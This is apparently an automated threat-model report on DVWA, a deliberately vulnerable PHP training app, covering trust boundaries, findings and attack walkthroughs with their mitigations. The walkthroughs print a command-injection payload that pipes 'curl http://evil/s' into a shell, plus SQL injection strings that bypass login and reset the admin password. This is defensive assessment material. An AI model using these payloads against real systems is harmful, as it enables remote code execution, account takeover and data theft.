

**Structural fixes** (full detail in [§7 Weakness Register](#7-weakness-register)):

- **[W-001](#w-001)** — Call a fixed executable with an argument list and no shell, and accept only allowlisted argument values from callers _(closes [F-004](#f-004))_
- **[W-002](#w-002)** — Provide one parameterised repository or query-builder path and prohibit application-value interpolation in database queries _(closes [F-005](#f-005))_

---

## 1. System Overview

Damn Vulnerable Web Application (DVWA) is a PHP/MariaDB web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand…

**Repository:** `https://github.com/digininja/DVWA`

### Scope

This threat model covers 3 components of DVWA: 

- MariaDB Database
- CI/CD Pipeline
- DVWA Web Application

**Not individually examined:** 2 source files in 1 component had no route, lead or security signal (DVWA Web Application 2).

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

**Basis:** An automated, AI-assisted threat model built from the repository's source code and configuration - static analysis only, no dynamic or penetration testing. It describes the system as built, not as designed.

---

<a id="identified-actors"></a>
### Identified Actors

Figure 1a draws **Anonymous Internet Attacker** as attacker of DVWA. [Figure 1b](#figure-1b) draws **Supply-Chain / Build Attacker** and the build it attacks. Each row gives that actor's access and the findings attributed to it.

| Actor | Type | Access | Findings |
|----------------------|--------|----------------------|----------------|
| A1 · Anonymous Internet Attacker | Attacker | No account or prior foothold | - |
| A2 · Supply-Chain / Build Attacker | Attacker | Compromises a dependency or build pipeline,<br/>or contributes malicious code to a public<br/>repo | 🟠 2 · 🟡 6 |

73 findings (2 Critical, 32 High, 39 Medium) have no assigned actor. That does not mean they are out of reach.

---

### Trust Boundaries

Each row names a crossing and the condition it relies on. A modelled crossing does not prove that its control works.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="20%" style="width:20%"><col width="25%" style="width:25%"><col width="21%" style="width:21%"><col width="34%" style="width:34%"></colgroup>
<thead><tr><th>Crossing</th><th>Required condition</th><th>Control</th><th>Status and findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="tb-2"></a>tb-2 · DVWA Web Application → MariaDB Database</td><td style="overflow-wrap:break-word">Every query built from request data reaches MariaDB only after escaping or parameter binding.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>Gap:</strong> <em>Query construction</em><br/>🔴 <a href="#f-005">F-005</a> — SQL injection in user detail update endpoint<br/>🟠 <a href="#f-017">F-017</a> — SQL injection in brute-force login query<br/>🟠 <a href="#f-019">F-019</a> — SQL injection</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-1"></a>tb-1 · External → CI/CD Pipeline<br/>Crossing: inferred</td><td style="overflow-wrap:break-word">Workflows triggered by pushes and pull requests run with a <code>GITHUB_TOKEN</code> limited to the access they need.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>Gap:</strong> <em>Authorization</em><br/>🟡 <a href="#f-056">F-056</a> — Third-party GitHub Actions pinned to mutable tags instead of commit SHAs<br/>🟡 <a href="#f-073">F-073</a> — Workflows lack explicit permissions block for GITHUB_TOKEN</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-3"></a>tb-3 · DVWA Web Application → external</td><td style="overflow-wrap:break-word">The siteverify result is trusted only if it comes from the fixed Google HTTPS endpoint.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>No gap shown,</strong> control not confirmed</td></tr>
</tbody>
</table>

Crossing types, source evidence and provenance are retained in `security-assessment.yaml`.

---

### Platform Security Settings

Settings of the hosting platform at check time, not of the examined source revision. `set` means configured, not effective. `not checkable` means unknown, not missing protection.

Repository selection 1: skipped (local repository; supply a GitHub or GitLab URL to check its platform settings).

---

## 2. Architecture Diagrams

### 2.1 System Context

Who uses and attacks DVWA, and which external systems it exchanges data with. Solid arrows name the data a flow carries; dashed red arrows are attack routes. Actors carry the names Figure 1 uses (C4 Level 1).



**Key takeaway:** DVWA has no modelled user role and depends on Google `reCAPTCHA`; Anonymous Internet Attacker and Supply-Chain / Build Attacker attack it.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



*Trust boundaries not drawn above: DVWA Web Application → external (tb-3), external → CI/CD Pipeline (tb-1) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** The system decomposes into 0 client, 1 application and 1 data unit(s); DVWA Web Application carries the most Critical findings (2) and bounds the worst-case blast radius. The build plane (CI/CD Pipeline) is shown in [Figure 1b](#figure-1b).

### 2.3 Components

How many findings hit each component, which of its controls are weakest, and which findings matter most. Evidence is in the [§8 Findings Register](#8-findings-register).

<!-- detail-table -->
<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="43%" style="width:43%"><col width="7%" style="width:7%"><col width="7%" style="width:7%"><col width="7%" style="width:7%"><col width="36%" style="width:36%"></colgroup>
<thead><tr><th>Component</th><th>🔴</th><th>🟠</th><th>🟡</th><th>Weakest controls and top findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="c-03"></a><a id="component-bc0b0b82b94908ba"></a><strong>C-03 · DVWA Web Application</strong><br/>Mostly in <code>vulnerabilities/</code></td><td style="overflow-wrap:break-word">2</td><td style="overflow-wrap:break-word">33</td><td style="overflow-wrap:break-word">40</td><td style="overflow-wrap:break-word">Top findings: <span style="white-space:nowrap"><a href="#f-004">F-004</a></span> · <span style="white-space:nowrap"><a href="#f-005">F-005</a></span> · <span style="white-space:nowrap"><a href="#f-017">F-017</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-02"></a><a id="component-8e8c82f91b0e01fb"></a><strong>C-02 · CI/CD Pipeline</strong></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">2</td><td style="overflow-wrap:break-word">6</td><td style="overflow-wrap:break-word">🟠 Weak: Supply chain<br/>Top findings: <span style="white-space:nowrap"><a href="#f-026">F-026</a></span> · <span style="white-space:nowrap"><a href="#f-027">F-027</a></span> · <span style="white-space:nowrap"><a href="#f-040">F-040</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-01"></a><a id="component-1b84dba2f3e10e46"></a><strong>C-01 · MariaDB Database</strong></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">2</td><td style="overflow-wrap:break-word">Top findings: <span style="white-space:nowrap"><a href="#f-040">F-040</a></span> · <span style="white-space:nowrap"><a href="#f-055">F-055</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">System-wide: evidence not tied to one component</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">🔴 Unsafe: Secrets / crypto<br/>🔴 Missing: Supply chain<br/>🟠 Weak: AuthN</td></tr>
</tbody>
</table>

*🔴 **Unsafe**: relied upon but defeated or trivially bypassable - fix it · 🔴 **Missing**: never built - add it · 🟠 **Weak**: present, with exploitable gaps · 🟡 **Partial**: covers some surfaces, meaningful gaps remain · 🟢 **Adequate**: present and sound. A control counts for the component whose paths hold its implementation evidence. A finding counts for every component it affects, so the columns can add up to more than the register. [§6](#6-security-architecture) holds the full assessment.*

**Key takeaway:** No component has a control rated Unsafe or Missing; 2 components have no component-specific control (C-01, C-03); 11 controls apply system-wide.

> **Legend:** `-->` synchronous request/response (REST, HTTPS, gRPC) · **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. Which root cause each Critical traces back to is in [Critical Findings by Root Cause](#critical-findings-by-root-cause); full per-finding context (severity rationale, assets, detection signals) is in the [§8 Findings Register](#8-findings-register).

### 3.1 OS command injection in health connectivity check and ping feature

**Source:** 🔴 [F-004](#f-004) — `vulnerabilities/api/src/HealthController.php:88`

Severity 🔴 Critical ([CWE-78](https://cwe.mitre.org/data/definitions/78.html)). STRIDE: Tampering. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. I send POST `/vulnerabilities/api/v2/health/connectivity` with JSON body `{"target":"x; curl http://evil/s|sh"}` and no credentials.
2. The server runs `exec("ping -c 4 x; curl ...|sh")`, which executes my payload as the Apache user.
3. I use the resulting shell to read `config/config.inc.php` DB credentials and pivot to MariaDB.

**Sequence Diagram**



**Key takeaway:** Until ● [M-013](#m-013) (Validate target host and use escapeshellarg) lands, 🔴 [F-004](#f-004) — OS command injection in health connectivity check and ping feature is exploitable at `vulnerabilities/api/src/HealthController.php:88` (Critical-severity, [CWE-78](https://cwe.mitre.org/data/definitions/78.html)).

**Defense in Depth**

- Primary mitigation: ● [M-013](#m-013) (Validate target host and use escapeshellarg)

### 3.2 SQL injection in user detail update endpoint

**Source:** 🔴 [F-005](#f-005) — `vulnerabilities/authbypass/change_user_details.php:47`

Severity 🔴 Critical ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. I send a POST to `/vulnerabilities/authbypass/change_user_details.php` with Cookie `security=low`, so the admin check is skipped.
2. I put `first_name` = x', `password=md5`('pw') where `user_id=1` -- in the JSON body, and it is concatenated into the UPDATE.
3. I log in to `login.php` as admin with password pw and take over the administrator account.

**Sequence Diagram**



**Key takeaway:** Until ● [M-014](#m-014) (Use prepared statements for user update query) lands, 🔴 [F-005](#f-005) — SQL injection in user detail update endpoint is exploitable at `vulnerabilities/authbypass/change_user_details.php:47` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-014](#m-014) (Use prepared statements for user update query)

### 3.3 Hardcoded symmetric encryption keys in source

**Source:** 🟠 [F-029](#f-029) — `vulnerabilities/cryptography/source/token_library_impossible.php:3`

Severity 🟠 High ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Information Disclosure. See [§8 F-029](#f-029) for the full register row.

**Attack Steps**

1. Anyone who reads the source, which DVWA exposes through `view_source`, learns the keys: 'rainbowclimbinghigh' is shared by the CBC and GCM token libraries, and the ECB and XOR keys are also embedded.
2. With these keys an attacker can decrypt or mint tokens.

**Sequence Diagram**



**Key takeaway:** Until ● [M-035](#m-035) (Load keys from a secret store) lands, 🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source is exploitable at `vulnerabilities/cryptography/source/token_library_impossible.php:3` (High-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ● [M-035](#m-035) (Load keys from a secret store)

### 3.4 SQL injection in brute-force login query

**Source:** 🟠 [F-017](#f-017) — `vulnerabilities/brute/source/low.php:13`

Severity 🟠 High ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-017](#f-017) for the full register row.

**Attack Steps**

1. An authenticated user sends `username=admin`'-- to the brute force page.
2. The raw value is concatenated into the SELECT and run by `mysqli_query`.
3. This bypasses the password check and lets an attacker run arbitrary SQL against MariaDB.

**Sequence Diagram**



**Key takeaway:** Until ● [M-024](#m-024) (Use prepared statements for login lookup) lands, 🟠 [F-017](#f-017) — SQL injection in brute-force login query is exploitable at `vulnerabilities/brute/source/low.php:13` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-024](#m-024) (Use prepared statements for login lookup)

### 3.5 Second-order SQL injection in High

**Source:** 🟠 [F-018](#f-018) — `vulnerabilities/sqli/source/high.php:11`

Severity 🟠 High ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-018](#f-018) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/sqli/source/high.php:11`.
2. An authenticated user posts a crafted id to `session-input.php`.
3. The value is stored in the session unvalidated and later concatenated into SQL by `sqli/source/high.php`, allowing data extraction.

**Sequence Diagram**



**Key takeaway:** Until ● [M-025](#m-025) (Bind session id via prepared statement) lands, 🟠 [F-018](#f-018) — Second-order SQL injection is exploitable at `vulnerabilities/sqli/source/high.php:11` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-025](#m-025) (Bind session id via prepared statement)

### 3.6 SQL injection in Low

**Source:** 🟠 [F-019](#f-019) — `vulnerabilities/sqli/source/low.php:11`

Severity 🟠 High ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-019](#f-019) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/sqli/source/low.php:11`.
2. Submit an SQL meta-character payload (e.g. `' OR 1=1 --`) in that parameter.
3. An authenticated user supplies an id value that breaks out of the quoted literal.

**Sequence Diagram**



**Key takeaway:** Until ● [M-026](#m-026) (Use prepared statements with bound integer id) lands, 🟠 [F-019](#f-019) — SQL injection is exploitable at `vulnerabilities/sqli/source/low.php:11` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-026](#m-026) (Use prepared statements with bound integer id)

### 3.7 SQL injection in unquoted numeric context despite escaping

**Source:** 🟠 [F-020](#f-020) — `vulnerabilities/sqli/source/medium.php:12`

Severity 🟠 High ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-020](#f-020) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `vulnerabilities/sqli/source/medium.php:12`.
2. An authenticated user tampers with the POST id.
3. The value is escaped but placed unquoted in the WHERE clause, so SQL syntax without quotes alters the query and reads other data.

**Sequence Diagram**


**Key takeaway:** Until ● [M-027](#m-027) (Bind id as integer parameter in prepared query) lands, 🟠 [F-020](#f-020) — SQL injection in unquoted numeric context despite escaping is exploitable at `vulnerabilities/sqli/source/medium.php:12` (High-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-027](#m-027) (Bind id as integer parameter in prepared query)

### 3.8 Unauthenticated database reset in setup page

**Source:** 🟠 [F-024](#f-024) — `setup.php:6`

Severity 🟠 High ([CWE-306](https://cwe.mitre.org/data/definitions/306.html)). STRIDE: Tampering. See [§8 F-024](#f-024) for the full register row.

**Attack Steps**

1. An attacker crafts a request that reaches the code at `setup.php:6`.
2. The attacker sends it; the missing control never rejects the crafted input.
3. `setup.php` calls `dvwaPageStartup` without 'authenticated'; any client loads the page for a token and POSTs `create_db`, dropping and recreating the database and resetting all accounts and data.

**Sequence Diagram**



**Key takeaway:** Until ● [M-031](#m-031) (Require authentication on every exposed endpoint) lands, 🟠 [F-024](#f-024) — Unauthenticated database reset in setup page is exploitable at `setup.php:6` (High-severity, [CWE-306](https://cwe.mitre.org/data/definitions/306.html)).

**Defense in Depth**

- Primary mitigation: ● [M-031](#m-031) (Require authentication on every exposed endpoint)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

What needs protecting, how sensitive it is, and which findings are tied to it.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="46%" style="width:46%"><col width="16%" style="width:16%"><col width="38%" style="width:38%"></colgroup>
<thead><tr><th>Asset</th><th>Sensitivity (assumed)</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><strong>Database service credentials</strong><br/>MariaDB root and application user credentials defined in compose environment.</td><td style="overflow-wrap:break-word">High</td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-005">F-005</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-011">F-011</a></span>, <span style="white-space:nowrap"><a href="#f-012">F-012</a></span>, <span style="white-space:nowrap"><a href="#f-013">F-013</a></span>, <span style="white-space:nowrap"><a href="#f-014">F-014</a></span>, <span style="white-space:nowrap"><a href="#f-015">F-015</a></span>, <span style="white-space:nowrap"><a href="#f-016">F-016</a></span>, <span style="white-space:nowrap"><a 